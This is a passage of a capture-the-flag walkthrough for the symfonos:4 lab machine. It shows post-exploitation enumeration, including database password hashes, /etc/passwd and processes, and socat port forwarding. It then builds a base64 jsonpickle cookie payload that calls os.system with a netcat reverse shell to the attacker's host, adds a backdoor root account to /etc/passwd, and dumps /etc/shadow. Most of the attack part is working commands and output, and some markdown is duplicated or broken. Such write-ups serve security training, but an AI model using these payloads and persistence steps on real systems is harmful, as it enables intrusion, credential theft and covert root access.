| Shutdown_priv          | enum('N','Y')                     | NO   |     | N        |       |
| Process_priv           | enum('N','Y')                     | NO   |     | N        |       |
| File_priv              | enum('N','Y')                     | NO   |     | N        |       |
| Grant_priv             | enum('N','Y')                     | NO   |     | N        |       |
| References_priv        | enum('N','Y')                     | NO   |     | N        |       |
| Index_priv             | enum('N','Y')                     | NO   |     | N        |       |
| Alter_priv             | enum('N','Y')                     | NO   |     | N        |       |
| Show_db_priv           | enum('N','Y')                     | NO   |     | N        |       |
| Super_priv             | enum('N','Y')                     | NO   |     | N        |       |
| Create_tmp_table_priv  | enum('N','Y')                     | NO   |     | N        |       |
| Lock_tables_priv       | enum('N','Y')                     | NO   |     | N        |       |
| Execute_priv           | enum('N','Y')                     | NO   |     | N        |       |
| Repl_slave_priv        | enum('N','Y')                     | NO   |     | N        |       |
| Repl_client_priv       | enum('N','Y')                     | NO   |     | N        |       |
| Create_view_priv       | enum('N','Y')                     | NO   |     | N        |       |
| Show_view_priv         | enum('N','Y')                     | NO   |     | N        |       |
| Create_routine_priv    | enum('N','Y')                     | NO   |     | N        |       |
| Alter_routine_priv     | enum('N','Y')                     | NO   |     | N        |       |
| Create_user_priv       | enum('N','Y')                     | NO   |     | N        |       |
| Event_priv             | enum('N','Y')                     | NO   |     | N        |       |
| Trigger_priv           | enum('N','Y')                     | NO   |     | N        |       |
| Create_tablespace_priv | enum('N','Y')                     | NO   |     | N        |       |
| Delete_history_priv    | enum('N','Y')                     | NO   |     | N        |       |
| ssl_type               | enum('','ANY','X509','SPECIFIED') | NO   |     |          |       |
| ssl_cipher             | blob                              | NO   |     | NULL     |       |
| x509_issuer            | blob                              | NO   |     | NULL     |       |
| x509_subject           | blob                              | NO   |     | NULL     |       |
| max_questions          | int(11) unsigned                  | NO   |     | 0        |       |
| max_updates            | int(11) unsigned                  | NO   |     | 0        |       |
| max_connections        | int(11) unsigned                  | NO   |     | 0        |       |
| max_user_connections   | int(11)                           | NO   |     | 0        |       |
| plugin                 | char(64)                          | NO   |     |          |       |
| authentication_string  | text                              | NO   |     | NULL     |       |
| password_expired       | enum('N','Y')                     | NO   |     | N        |       |
| is_role                | enum('N','Y')                     | NO   |     | N        |       |
| default_role           | char(80)                          | NO   |     |          |       |
| max_statement_time     | decimal(12,6)                     | NO   |     | 0.000000 |       |
+------------------------+-----------------------------------+------+-----+----------+-------+
47 rows in set (0.002 sec)

MariaDB [mysql]> select User, Password from user;
select User, Password from user;
+------+-------------------------------------------+
| User | Password                                  |
+------+-------------------------------------------+
| root | *C82E87B34FBDE65D16D0C96AF84410AA160D81ED |
+------+-------------------------------------------+
1 row in set (0.001 sec)

MariaDB [mysql]> exit
exit
Bye
```

Found credentials:

- `admin:b674f184cd52edabf2c38c0142452c0af7e21f71e857cebb856e3ad7714b99f2`
- `root:*C82E87B34FBDE65D16D0C96AF84410AA160D81ED`

These however, don't look like anything I have seen, admin one at least look like base 36 or something.

### /etc/passwd

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
poseidon:x:1000:1000:,,,:/home/poseidon:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
```

```shell
cat /etc/passwd | grep /home
poseidon:x:1000:1000:,,,:/home/poseidon:/bin/bash
```

### processes

```shell
www-data@symfonos4:/home/poseidon$ ps -ef
ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 01:43 ?        00:00:01 /sbin/init
root         2     0  0 01:43 ?        00:00:00 [kthreadd]
root         3     2  0 01:43 ?        00:00:00 [rcu_gp]
root         4     2  0 01:43 ?        00:00:00 [rcu_par_gp]
root         6     2  0 01:43 ?        00:00:00 [kworker/0:0H-kblockd]
root         8     2  0 01:43 ?        00:00:00 [mm_percpu_wq]
root         9     2  0 01:43 ?        00:00:00 [ksoftirqd/0]
root        10     2  0 01:43 ?        00:00:00 [rcu_sched]
root        11     2  0 01:43 ?        00:00:00 [rcu_bh]
root        12     2  0 01:43 ?        00:00:00 [migration/0]
root        13     2  0 01:43 ?        00:00:01 [kworker/0:1-memcg_kmem_cache]
root        14     2  0 01:43 ?        00:00:00 [cpuhp/0]
root        15     2  0 01:43 ?        00:00:00 [kdevtmpfs]
root        16     2  0 01:43 ?        00:00:00 [netns]
root        17     2  0 01:43 ?        00:00:00 [kauditd]
root        18     2  0 01:43 ?        00:00:00 [khungtaskd]
root        19     2  0 01:43 ?        00:00:00 [oom_reaper]
root        20     2  0 01:43 ?        00:00:00 [writeback]
root        21     2  0 01:43 ?        00:00:00 [kcompactd0]
root        22     2  0 01:43 ?        00:00:00 [ksmd]
root        23     2  0 01:43 ?        00:00:00 [khugepaged]
root        24     2  0 01:43 ?        00:00:00 [crypto]
root        25     2  0 01:43 ?        00:00:00 [kintegrityd]
root        26     2  0 01:43 ?        00:00:00 [kblockd]
root        27     2  0 01:43 ?        00:00:00 [edac-poller]
root        28     2  0 01:43 ?        00:00:00 [devfreq_wq]
root        29     2  0 01:43 ?        00:00:00 [watchdogd]
root        30     2  0 01:43 ?        00:00:00 [kswapd0]
root        48     2  0 01:43 ?        00:00:00 [kthrotld]
root        49     2  0 01:43 ?        00:00:00 [ipv6_addrconf]
root        50     2  0 01:43 ?        00:00:00 [kworker/u2:1-events_unbound]
root        59     2  0 01:43 ?        00:00:00 [kstrp]
root       102     2  0 01:43 ?        00:00:00 [ata_sff]
root       107     2  0 01:43 ?        00:00:00 [scsi_eh_0]
root       109     2  0 01:43 ?        00:00:00 [scsi_tmf_0]
root       111     2  0 01:43 ?        00:00:00 [scsi_eh_1]
root       113     2  0 01:43 ?        00:00:00 [scsi_tmf_1]
root       114     2  0 01:43 ?        00:00:00 [scsi_eh_2]
root       116     2  0 01:43 ?        00:00:00 [kworker/u2:2-events_unbound]
root       117     2  0 01:43 ?        00:00:00 [scsi_tmf_2]
root       134     2  0 01:43 ?        00:00:00 [kworker/0:1H-kblockd]
root       163     2  0 01:43 ?        00:00:00 [kworker/u3:0]
root       165     2  0 01:43 ?        00:00:00 [jbd2/sda1-8]
root       166     2  0 01:43 ?        00:00:00 [ext4-rsv-conver]
root       195     1  0 01:43 ?        00:00:00 /lib/systemd/systemd-journald
root       216     1  0 01:43 ?        00:00:00 /lib/systemd/systemd-udevd
root       265     2  0 01:43 ?        00:00:00 [ttm_swap]
root       267     2  0 01:43 ?        00:00:00 [irq/10-vmwgfx]
systemd+   291     1  0 01:43 ?        00:00:00 /lib/systemd/systemd-timesyncd
root       339     1  0 01:43 ?        00:00:00 /usr/sbin/cron -f
root       340     1  0 01:43 ?        00:00:00 /usr/sbin/rsyslogd -n -iNONE
root       341     1  0 01:43 ?        00:00:00 /lib/systemd/systemd-logind
message+   342     1  0 01:43 ?        00:00:00 /usr/bin/dbus-daemon --system --
root       346     1  0 01:43 ?        00:00:00 /sbin/wpa_supplicant -u -s -O /r
root       362     1  0 01:43 ?        00:00:00 /sbin/dhclient -4 -v -i -pf /run
root       397     1  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/g
root       405     1  0 01:43 tty1     00:00:00 /sbin/agetty -o -p -- \u --nocle
root       422     1  0 01:43 ?        00:00:00 /usr/sbin/sshd -D
root       484     1  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
mysql      512     1  0 01:43 ?        00:00:02 /usr/sbin/mysqld
root       543   397  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/g
root       545   397  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/g
root       560   397  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/g
www-data   712   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   713   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   714   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   715   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   716   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   804   484  0 01:49 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   805   484  0 01:49 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   841   804  0 01:58 ?        00:00:00 sh -c nc -nv 192.168.56.70 443 -
www-data   842   841  0 01:58 ?        00:00:00 sh
www-data   848   842  0 01:59 ?        00:00:00 python -c import pty;pty.spawn("
www-data   849   848  0 01:59 pts/0    00:00:00 /bin/bash
root       851     2  0 01:59 ?        00:00:00 [kworker/0:0-ata_sff]
root       863     2  0 02:04 ?        00:00:00 [kworker/0:2-ata_sff]
www-data   874   849  0 02:08 pts/0    00:00:00 ps -ef
www-data@symfonos4:/home/poseidon$ ps -ef | grep apache
ps -ef | grep apache
root       484     1  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   712   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   713   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   714   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   715   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   716   484  0 01:43 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   804   484  0 01:49 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   805   484  0 01:49 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   876   849  0 02:08 pts/0    00:00:00 grep apache
www-data@symfonos4:/home/poseidon$ ps -ef | grep python
ps -ef | grep python
root       397     1  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
root       543   397  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
root       545   397  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
root       560   397  0 01:43 ?        00:00:00 /usr/bin/python /usr/local/bin/gunicorn --workers 3 -b 127.0.0.1:8080 app:app
www-data   848   842  0 01:59 ?        00:00:00 python -c import pty;pty.spawn("/bin/bash")
www-data   878   849  0 02:08 pts/0    00:00:00 grep python
www-data@symfonos4:/home/poseidon$ ps -ef | grep ssh
ps -ef | grep ssh
root       422     1  0 01:43 ?        00:00:00 /usr/sbin/sshd -D
www-data   880   849  0 02:08 pts/0    00:00:00 grep ssh
www-data@symfonos4:/home/poseidon$ ps -ef | grep ftp
ps -ef | grep ftp
www-data   882   849  0 02:08 pts/0    00:00:00 grep ftp
```

Notice an app running at port 8080, we didn't have it in nmap scans.

### netstat

```shell
www-data@symfonos4:/home/poseidon$ netstat -antuple
netstat -antuple
bash: netstat: command not found
www-data@symfonos4:/home/poseidon$ ss -ant
ss -ant
State  Recv-Q Send-Q          Local Address:Port             Peer Address:Port
LISTEN 0      80                  127.0.0.1:3306                  0.0.0.0:*
LISTEN 0      128                 127.0.0.1:8080                  0.0.0.0:*
LISTEN 0      128                   0.0.0.0:22                    0.0.0.0:*
ESTAB  0      0               192.168.56.93:41102           192.168.56.70:443
LISTEN 0      128                         *:80                          *:*
LISTEN 0      128                      [::]:22                       [::]:*
ESTAB  0      0      [::ffff:192.168.56.93]:80     [::ffff:192.168.56.70]:53872
```

## Port forwarding

I just realized that I am in a reverse shell via a webshell, and user is www-data. I cannot use SSH port forwarding.

[Search if nc can port forward](https://unix.stackexchange.com/questions/293304/using-netcat-for-port-forwarding)

`nc` cannot port forward.

### `socat`

```shell
which socat
/usr/bin/socat

www-data@symfonos4:/home/poseidon$ socat tcp-listen:10000,fork,reuseaddr tcp:localhost:8080
< tcp-listen:10000,fork,reuseaddr tcp:localhost:8080
```






```shell
echo -n "eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiAiUG9zZWlkb24ifQ==" | base64 -d
{"py/object": "app.User", "username": "Poseidon"}
```

What do I do with this?

## py/object exploit



[https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

[python pickle](https://docs.python.org/3.4/library/pickle.html#module-pickle)



[latest python pickle: https://docs.python.org/3/library/pickle.html#module-pickle](https://docs.python.org/3/library/pickle.html#module-pickle)



Basically, don't deserialize data someone else gave you.

```shell
echo -n '{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["whoami && id && hostname && date "]}, null, null, null]}' | base64
eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6
ICJzdWJwcm9jZXNzLlBvcGVuIn0sIHsicHkvdHVwbGUiOiBbIndob2FtaSAmJiBpZCAmJiBob3N0
bmFtZSAmJiBkYXRlICJdfSwgbnVsbCwgbnVsbCwgbnVsbF19

```

```shell
echo -n "eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6" | base64 -d
{"py/object": "__main__.Shell", "py/reduce": [{"py/type":
```

```shell
echo -n "eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6ICJzdWJwcm9jZXNzLlBvcGVuIn0sIHsicHkvdHVwbGUiOiBbIndob2FtaSAmJiBpZCAmJiBob3N0" | base64 -d
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["whoami && id && host
```

```shell
echo -n "eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6ICJzdWJwcm9jZXNzLlBvcGVuIn0sIHsicHkvdHVwbGUiOiBbIndob2FtaSAmJiBpZCAmJiBob3N0bmFtZSAmJiBkYXRlICJdfSwgbnVsbCwgbnVsbCwgbnVsbF19" | base64 -d
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["whoami && id && hostname && date "]}, null, null, null]}
```

Forgot "username: Poseidon"

```shell
echo -n '{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["whoami && id && hostname && date "]}, null, null, null], "username": "Poseidon"}' | base64
eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6
ICJzdWJwcm9jZXNzLlBvcGVuIn0sIHsicHkvdHVwbGUiOiBbIndob2FtaSAmJiBpZCAmJiBob3N0
bmFtZSAmJiBkYXRlICJdfSwgbnVsbCwgbnVsbCwgbnVsbF0sICJ1c2VybmFtZSI6ICJQb3NlaWRv
biJ9


echo -n "eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6ICJzdWJwcm9jZXNzLlBvcGVuIn0sIHsicHkvdHVwbGUiOiBbIndob2FtaSAmJiBpZCAmJiBob3N0bmFtZSAmJiBkYXRlICJdfSwgbnVsbCwgbnVsbCwgbnVsbF0sICJ1c2VybmFtZSI6ICJQb3NlaWRvbiJ9" | base64 -d
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["whoami && id && hostname && date "]}, null, null, null], "username": "Poseidon"}
```

```shell
echo -n '{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc -nv 192.168.56.70 444 -e /bin/bash"]}, null, null, null], "username": "Poseidon"}' | base64
eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6
ICJvcy5zeXN0ZW0ifSwgeyJweS90dXBsZSI6IFsibmMgLW52IDE5Mi4xNjguNTYuNzAgNDQ0IC1l
IC9iaW4vYmFzaCJdfSwgbnVsbCwgbnVsbCwgbnVsbF0sICJ1c2VybmFtZSI6ICJQb3NlaWRvbiJ9
```

Use `eyJweS9vYmplY3QiOiAiX19tYWluX18uU2hlbGwiLCAicHkvcmVkdWNlIjogW3sicHkvdHlwZSI6ICJvcy5zeXN0ZW0ifSwgeyJweS90dXBsZSI6IFsibmMgLW52IDE5Mi4xNjguNTYuNzAgNDQ0IC1lIC9iaW4vYmFzaCJdfSwgbnVsbCwgbnVsbCwgbnVsbF0sICJ1c2VybmFtZSI6ICJQb3NlaWRvbiJ9` in cookie.

## Root shell

```shell
sudo nc -nlvp 444 -s $LHOST
Listening on 192.168.56.70 444
Connection received on 192.168.56.93 35032
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
hostname
symfonos4
who

date
Sat 08 Jan 2022 02:37:30 AM CST

cat /etc/system

cd /root

ls
proof.txt

cat proof.txt

        Congrats on rooting symfonos:4!
 ~         ~            ~     w   W   w
                    ~          \  |  /       ~
        ~        ~        ~     \.|./    ~
                                  |
                       ~       ~  |           ~
       o        ~   .:.:.:.       | ~
  ~                 wwWWWww      //   ~
            ((c     ))"""((     //|        ~
   o       /\/\((  (( 6 6 ))   // |  ~
          (d d  ((  )))^(((   //  |
     o    /   / c((-(((')))-.//   |     ~
         /===/ `) (( )))(( ,_/    |~
  ~     /o o/  / c((( (()) |      |  ~          ~
     ~  `~`^  / c (((  ))  |      |          ~
             /c  c(((  (   |  ~   |      ~
      ~     /  c  (((  .   |      |   ~           ~
           / c   c ((^^^^^^`\   ~ | ~        ~
          |c  c c  c((^^^ ^^^`\   |
  ~        \ c   c   c(^^^^^^^^`\ |    ~
       ~    `\ c   c  c;`\^^^^^./ |             ~
              `\c c  c  ;/^^^^^/  |  ~
   ~        ~   `\ c  c /^^^^/' ~ |       ~
         ~        `;c   |^^/'     o
             .-.  ,' c c//^\\         ~
     ~      ( @ `.`c  -///^\\\  ~             ~
             \ -` c__/|/     \|
      ~       `---'   '   ~   '          ~
 ~          ~          ~           ~             ~
        Contact me via Twitter @zayotic to give feedback!

exit

```



## /etc/shadow

```shell
```shell
sudo nc -nlvp 444 -s $LHOST
Listening on 192.168.56.70 444
Connection received on 192.168.56.93 35042
echo 'salty:$6$salty$TwLZ.kG/oqyEnXrhYGO8tQPAaX8GVJE5mhKgLSy9yKz7cNjaVNx3.7FtBVn4VEe.daS/nqBRwyEPpOr.jf228.:0:0:root:/:/bin/bash' >> /etc/passwd

exit

```

```shell
ssh salty@$RHOST
salty@192.168.56.93's password:
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Aug 19 18:25:18 2019 from 192.168.1.147
root@symfonos4:/# whoami
root
root@symfonos4:/# id
uid=0(root) gid=0(root) groups=0(root)
root@symfonos4:/# cat /etc/shadow
root:$6$f03/rN.e2MoFvZi6$rQRkzBFZzn1KUu06xyE.WtrJ3cxzyN4r9ArmyrD2KdlLc9FOYJ5HDTO3k0UDsZmKjIhC44d4WdmmrSokX2YCB/:18127:0:99999:7:::
daemon:*:18125:0:99999:7:::
bin:*:18125:0:99999:7:::
sys:*:18125:0:99999:7:::
sync:*:18125:0:99999:7:::
games:*:18125:0:99999:7:::
man:*:18125:0:99999:7:::
lp:*:18125:0:99999:7:::
mail:*:18125:0:99999:7:::
news:*:18125:0:99999:7:::
uucp:*:18125:0:99999:7:::
proxy:*:18125:0:99999:7:::
www-data:*:18125:0:99999:7:::
backup:*:18125:0:99999:7:::
list:*:18125:0:99999:7:::
irc:*:18125:0:99999:7:::
gnats:*:18125:0:99999:7:::
nobody:*:18125:0:99999:7:::
_apt:*:18125:0:99999:7:::
systemd-timesync:*:18125:0:99999:7:::
systemd-network:*:18125:0:99999:7:::
systemd-resolve:*:18125:0:99999:7:::
messagebus:*:18125:0:99999:7:::
avahi-autoipd:*:18125:0:99999:7:::
sshd:*:18125:0:99999:7:::
poseidon:$6$t2xm9gQNTPFD0Uci$cSW8pjR8qX8HqLavVKo7mLIkf6mkXD34eS8tirfOCCDnLqbob5T9DcLuqIXr.D4iPNzyw3NJBMqHZsmBIQWbx0:18127:0:99999:7:::
systemd-coredump:!!:18125::::::
mysql:!:18126:0:99999:7:::
root@symfonos4:/#
```

</body>
</html>
